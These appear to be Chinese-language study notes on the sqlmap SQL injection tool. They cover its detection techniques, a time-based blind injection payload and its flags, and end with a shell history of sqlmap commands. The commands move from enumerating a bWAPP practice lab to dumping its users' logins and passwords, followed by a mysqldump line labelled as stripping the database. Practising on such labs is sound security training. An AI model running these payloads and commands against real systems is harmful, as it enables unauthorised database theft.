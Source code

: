 开源sql注入漏洞检测，利用工具  
检测动态页面中get/post参数，cookie，http  
数据榨取  
文件系统访问  
操作系统命令执行  
引擎强大，特性丰富  
Xss漏洞检测    

五种漏洞检测技术  
        基于布尔的盲注检测  
        基于时间的盲注检测  
                  'and(select * from (select(sleep(20)))a)--+  
        基于错误的检测  
        基于union联合查询的检测  
                  适用于通过循环直接输出联合查询结果，否则只显示第一项结果  
        基于堆叠查询的检测  
                  ；堆叠多个查询语句  
                  适用于非select的数据修改，删除的操作  
支持的数据库管理系统DBMS  
        mysql,oracle,postgresql,microsoft sql server,Microsoft Access, IBM DB2, SQLite,Firebird, Sybase , SAP MaxDB  



其他特性  
        数据库直接连接-D  
                  不通过sql注入，指定身份认证信息，IP，端口  
        与burpsuite，google结合使用，支持正则表达式限定测试目标  
        get，post，cookie，referer，user-agent（随机或者指定）  
                  cookie过期后自动处理set-cookie头信息，更新cookie信息  
        限速：最大并发，延迟发送  
        支持basic，digest，ntlm，ca身份认证  
        数据库版本，用户，权限，hash枚举和字典破解，暴力破解表列名称  
        文件上传下载，UDF，启动并执行存储过程，操作系统命令执行，访问windows注册表  
        与w3af，metasploit集成结合使用，基于数据库服务进程提权和上传执行后门  
        
sqlmap参数
        sqlmap -u URL  
        sqlmap -f 检查指纹信息（足迹）  
        sqlmap -u url -p(选择你要检查的变量）username -f  
        sqlmap --users #查询数据库帐号  
        sqlmap --banner #查询当前系统信息  
        sqlmap --dbs #查询当前数据库有那些库存在  
        sqlmap --schema #查看源数据库（源）  
        sqlmap -a #显示所有信息  

```shell
  381  sqlmap -u http://10.0.0.8/bWAPP/sqli_17.php --cookie="security_level=0; PHPSESSID=d0c96f6bcc199ac381b801471373963b"  --level 5 --random-agent -f -b --dbs --users
  382  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --dbs=mysql --level5 -t -b --database
  383  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --dbs:mysql --level5 -t -b --database
  384  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --dbs --level5 -t -b --database
  385  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --dbs --level 5 -t -b --database
  386  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --dbs --database
  387  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --dbs 
  388  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --current-db
  389  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --current-table
  390  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --current-db
  391  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --tables
  392  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b --tables -D bWAPP
  393  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b -D bWAPP -T users --columns
  394  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=1cd229d6b0dd28a76c837479ac947086; security_level=0"  --level 5 -t -b -D bWAPP -T users --dump -C "login,Password"
  
  sqlmap -u http://10.0.0.8/bWAPP/sqli_2.php\?movie\=1\&action\=go --cookie="PHPSESSID=0fb89681a682f570a2ad6d7834f0ba9d; security_level=0"  --level 5 -t -b -D bWAPP -T users --dump -C "login,Password" --is-dba
```

`mysqldump -A -R -E --triggers --master-data=2 --single-transaction > /tmp/full.sql` 脱库